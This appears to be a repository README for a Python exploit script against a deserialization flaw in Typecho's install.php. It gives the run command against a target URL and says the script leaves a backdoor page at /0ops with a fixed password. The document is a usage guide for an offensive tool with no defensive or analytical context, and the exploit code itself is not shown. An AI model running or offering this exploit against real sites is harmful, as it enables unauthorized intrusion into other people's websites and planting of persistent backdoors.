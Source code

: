# Typecho Anti serialization vulnerability

intsall.php is vulnerable

# Requirement
```
Python 2.7
```

# Usage
```
Usage:  python typecho_exp.py [vulnerable url]
	 	
		vulnerable url  www.example.com/install.php

python typecho_exp.py www.example.com/install.php

the evil page: www.example.com/0ops
password: pos2
```

# Credit

Author: CarlStar


